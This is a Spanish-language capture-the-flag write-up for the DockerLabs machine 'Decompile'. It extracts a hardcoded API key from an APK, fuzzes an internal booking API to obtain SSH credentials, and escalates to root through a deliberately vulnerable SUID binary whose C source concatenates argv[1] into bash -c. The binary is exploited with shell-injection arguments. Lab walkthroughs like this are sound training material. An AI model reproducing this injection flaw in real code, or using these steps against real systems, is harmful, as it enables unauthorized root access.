






# Decompile DockerLabs (Intermediate)

# Contexto de la maquina
## Trayectoria Decompile

<figure><figcaption></figcaption></figure>

## Descripción

**Decompile** es una máquina Linux de dificultad **Intermediate** en DockerLabs que simula **InmoHogar**, una plataforma de alquiler de habitaciones compartidas en Madrid. La máquina está diseñada como una progresión explícita de cuatro etapas ("stages"), cada una con su propia flag, que requiere combinar ingeniería inversa de una aplicación Android con enumeración de una API REST interna.

La cadena comienza descargando y decompilando el APK de la aplicación con `jadx`, donde una clase `BuildConfig` expone una API Key hardcodeada en el código compilado. Esa clave se usa para fuzzear y autenticarse contra una API de reservas (`/booking`) descubierta por fuzzing web, que revela un endpoint de sesiones (`/sessions`) que, al autenticarse con el `tenant_account` correcto, entrega directamente las credenciales SSH del usuario `deploy`. La escalada a `root` se consigue explotando un binario **SUID** (`manage-svc`) cuyo código fuente en C está disponible junto al binario: concatena el argumento recibido directamente en una cadena que se pasa a `bash -c` sin ningún tipo de escapado, permitiendo **inyección de comandos** clásica.

**Objetivo**

- Decompilar el APK de la aplicación con `jadx` y extraer la API Key de `BuildConfig`.
- Fuzzear la API `/booking` con la API Key para descubrir el endpoint `properties`.
- Autenticarse en `/sessions` con el `tenant_account` correcto para obtener las credenciales SSH de `deploy`.
- Explotar el binario SUID `manage-svc` mediante inyección de comandos para escalar a `root`.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Ubuntu)
- Categoría principal: Web / Mobile Reverse Engineering / Linux Privilege Escalation
- Componentes involucrados:
    - APK Android con credenciales hardcodeadas en `BuildConfig`.
    - API REST interna (`/booking`) autenticada por API Key (header `X-API-Key`).
    - Endpoint de sesiones que revela credenciales SSH tras autenticación correcta.
    - Binario SUID con código fuente expuesto y vulnerabilidad de inyección de comandos vía `argv[1]`.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip decompile.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh decompile.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor y no dejar archivos residuales.
# Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-14 15:57 +0000
Nmap scan report for 172.17.0.2
Host is up (0.000030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 (protocol 2.0)
| ssh-hostkey: 
|   256 12:b5:eb:08:ca:4b:18:51:d8:43:b6:59:a7:ec:e0:74 (ECDSA)
|_  256 61:85:56:a8:cb:5d:c2:2e:00:db:a9:bd:e5:10:09:79 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: InmoHogar \xC2\xB7 Roomshare Madrid
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds
```

Dos puertos abiertos:

- **Puerto 22** → SSH (OpenSSH 8.9p1), que usaremos cuando obtengamos credenciales.
- **Puerto 80** → HTTP (nginx 1.18.0). Aloja **InmoHogar**, una plataforma de alquiler de habitaciones. Accedemos para ver qué contiene.
## Enumeración web y descarga del APK

<figure><figcaption></figcaption></figure>

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Encontramos un enlace de descarga de una aplicación Android (`.apk`). Lo descargamos y realizamos ingeniería inversa para ver qué información oculta puede contener.
# Decompilación del APK
## Decompilación con jadx

**jadx** es una herramienta que decompila el bytecode de aplicaciones Android (`.dex`) de vuelta a código Java legible. Usamos su interfaz gráfica:

```bash
jadx-gui app-release.apk
```

Si el archivo no carga automáticamente, lo abrimos manualmente desde la GUI:

<figure><figcaption></figcaption></figure>

Con la APK completamente decompilada, revisamos sus clases y encontramos información muy sensible directamente en `BuildConfig`, la clase que Android genera automáticamente con las constantes de configuración del build:

```java
package com.inmohogar.roomshare;

public final class BuildConfig {
    public static final boolean DEBUG = false;
    public static final String APPLICATION_ID = "com.inmohogar.roomshare";
    public static final String BUILD_TYPE = "release";
    public static final int VERSION_CODE = 4711;
    public static final String VERSION_NAME = "3.4.2";
    public static final String BOOKING_API_KEY = "BKGVlytSjDihCgXmNPm1cM6QwhRjrT86yJ2sEaf9";
    public static final String BOOKING_BASE_URL = "https://booking.internal/v3/";
    public static final String TENANT_ACCOUNT = "INMO-MAD-PRIMARY";
    public static final String AUTH_HEADER = "X-API-Key";
    public static final String CTF_STAGE1 = "FLAG{stage1_buildconfig_leak_BKGVlytS}";
}
```

Esta clase nos da prácticamente todo lo necesario para atacar la API: la **API Key** (`BOOKING_API_KEY`), el **nombre del header** de autenticación que espera el servidor (`X-API-Key`), y el identificador de **cuenta inquilino** (`TENANT_ACCOUNT`) que necesitaremos más adelante. También obtenemos la primera flag de la cadena directamente embebida en el código.

Con esta información en mano, realizamos fuzzing web para localizar el servicio que consume esta API Key.
## Gobuster

```bash
gobuster dir -u http://<IP> -w <WORDLIST> -x html,txt,php -t 100
```

Respuesta:

```
about                (Status: 200) [Size: 70]
booking              (Status: 301) [Size: 178] [--> http://172.17.0.2/booking/]
```

Encontramos la ruta `booking`, que coincide con el nombre de la API vista en la constante `BOOKING_BASE_URL` del APK. Accedemos:

```
URL = http://<IP>/booking
```

Respuesta:

<figure><figcaption></figcaption></figure>
# Escalate user deploy

<figure><figcaption></figcaption></figure>

## Fuzzing de endpoints de la API con la API Key

Accedemos sin ningún token y el servidor nos rechaza. Probamos a usar la API Key extraída del APK como cabecera de autenticación mientras fuzzeamos los posibles endpoints de la API. El flag `-fc 404` descarta las respuestas de ruta inexistente, dejando pasar cualquier otro código de estado:

```bash
ffuf -u "http://<IP>/booking/FUZZ" \
  -w <WORDLIST> \
  -H "X-API-Key: $KEY" \
  -fc 404 -t 50
```

Respuesta:

```
properties              [Status: 200, Size: 376, Words: 42, Lines: 1, Duration: 4ms]
```

El endpoint `properties` responde con `200 OK` cuando se envía la API Key correcta en la cabecera. Para explorarlo cómodamente desde el navegador, usamos la extensión de Firefox **ModHeader**, que permite inyectar cabeceras personalizadas en cada petición sin tener que usar siempre `curl`. La configuramos con la cabecera `X-API-Key` y recargamos la página:

<figure><figcaption></figcaption></figure>

Funciona. El servidor devuelve información sensible:

```json
[
  {
    "id": "P-001",
    "address": "Calle Mayor 1, Madrid",
    "rooms": 3,
    "monthly_rent_eur": 850
  },
  ...
  {
    "_ctf_hint": "Auth OK. Try POST /sessions with tenant_account=INMO-MAD-PRIMARY"
  }
]
```

El propio servidor nos indica el siguiente paso: autenticarnos mediante `POST` en el endpoint `/sessions` enviando `tenant_account=INMO-MAD-PRIMARY`, exactamente el valor que vimos en la constante `TENANT_ACCOUNT` del APK.
## Autenticación en /sessions y obtención de credenciales SSH

```bash
KEY="BKGVlytSjDihCgXmNPm1cM6QwhRjrT86yJ2sEaf9"

curl -si -X POST "http://<IP>/booking/sessions" \
  -H "X-API-Key: $KEY" \
  -H "Content-Type: application/json" \
  -d '{"tenant_account":"INMO-MAD-PRIMARY"}'
```

Respuesta:

```
HTTP/1.1 201 Created
...

{
  "id": "SES-183817FE407C4FBE",
  "tenant_account": "INMO-MAD-PRIMARY",
  "property_id": "P-001",
  "reference": "poc-911eed",
  "sessionData": "stage2_accepted_stage2_api_key_accepted_1791993453",
  "status": "open",
  "_ctf_hint": "Auth accepted (Stage 2). Next: SSH user=deploy pwd=c0mpartir-p1s0s"
}
```

El servidor nos entrega directamente las credenciales SSH en el campo `_ctf_hint` de la respuesta:

```
user=deploy
pwd=c0mpartir-p1s0s
```
## SSH (deploy)

```bash
ssh deploy@<IP>
```

Metemos como contraseña `c0mpartir-p1s0s`:

```
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.17.10+kali-amd64 x86_64)
...
deploy@4f0b13e3c132:~$ whoami
deploy
```

Las credenciales funcionan. Leemos la flag de esta etapa:

> flag-stage3.txt

```
stage3_ssh_user_land_4f0b13e3c132
```
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Enumeración de permisos sudo

```bash
sudo -l
```

Respuesta:

```
Matching Defaults entries for deploy on 4f0b13e3c132:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User deploy may run the following commands on 4f0b13e3c132:
    (root) NOPASSWD: /opt/decompile/ssh/privesc/manage-svc
    (ALL) NOPASSWD: /usr/local/bin/restart-booking-gw
```

Podemos ejecutar dos binarios como `root` sin contraseña: `manage-svc` y `restart-booking-gw`. Antes de probarlos, revisamos sus permisos:

```bash
ls -la /opt/decompile/ssh/privesc/manage-svc
```

Respuesta:

```
-rwsr-xr-x 1 root root 16368 Oct 11 10:10 manage-svc
```

El binario tiene el bit **SUID** activo y pertenece a `root`, lo que significa que se ejecuta con privilegios de `root` independientemente de quién lo lance directamente (sin necesidad de pasar por `sudo`).
## Análisis del código fuente del binario

Junto al binario hay disponible su código fuente en C, lo que nos ahorra tener que hacer ingeniería inversa del ejecutable compilado:

> manage-svc.c

```c
/*
 * manage-svc - SUID-root binary that "helps" restart internal services.
 * Vulnerable: it copies the first argument of its argv[1] into a shell that
 * runs as root. Classic shell-injection-via-argv privesc.
 *
 *   $ /opt/decompile/ssh/privesc/manage-svc 'id; /bin/bash'
 *   ... root shell
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv) {
    if (argc < 2) {
        fprintf(stderr, "usage: manage-svc <action>\n");
        return 1;
    }
    if (geteuid() != 0) {
        fprintf(stderr, "manage-svc: must be SUID (euid=%d)\n", geteuid());
        return 1;
    }
    setuid(0); setgid(0);
    /* Vulnerable: shell concatenation, no quoting/escaping */
    char buf[2048];
    snprintf(buf, sizeof(buf),
             "logger -t decompile-ctf 'restart-booking-gw: %s' >/dev/null 2>&1 ; %s",
             argv[1], argv[1]);
    execl("/bin/bash", "bash", "-c", buf, (char *)NULL);
    perror("execl");
    return 1;
}
```

El propio comentario del código ya nos regala el vector de ataque. El problema está en la función `snprintf()`: construye un comando de shell concatenando directamente `argv[1]` (nuestro primer argumento) **sin ningún tipo de escapado o sanitización**, dos veces en la misma cadena (una para el `logger` y otra como comando real), y lo ejecuta con `execl("/bin/bash", "bash", "-c", buf, NULL)`.

Esto significa que si nuestro argumento contiene un separador de comandos como `;`, lo que viene después se interpretará como un comando independiente dentro del mismo `bash -c`. Como el binario tiene SUID y ya ha llamado a `setuid(0)` antes de ejecutar el comando, cualquier cosa que inyectemos correrá como `root`.
## Explotación y escalada a root

```bash
sudo /opt/decompile/ssh/privesc/manage-svc '/bin/bash -p'
```

El argumento pasado se concatena directamente en el `bash -c` del binario, lanzando una shell interactiva con privilegios heredados del proceso SUID. Respuesta:

```
root@4f0b13e3c132:/opt/decompile/ssh/privesc# whoami
root
```

Ya somos `root`. Leemos la flag final:

> flag-root.txt

```
FLAG{stage4_root_4f0b13e3c132_1791993453}
```

